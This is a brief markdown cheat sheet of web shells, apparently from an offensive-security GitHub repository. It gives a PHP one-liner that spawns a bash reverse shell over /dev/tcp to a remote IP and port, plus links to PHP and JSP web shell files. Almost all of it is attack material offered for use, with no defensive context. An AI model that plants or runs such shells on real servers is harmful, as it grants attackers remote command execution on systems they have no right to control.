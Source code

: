 # Web Shells

## PHP shells

**tiny reverse shell**
```
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
```

[php simple web shell](https://github.com/k2haxor/HACK-THEM-ALL/blob/master/shells/shell.php)


## JSP shells

[JSP simple web shell](https://github.com/k2haxor/HACK-THEM-ALL/blob/master/shells/shell.jsp)

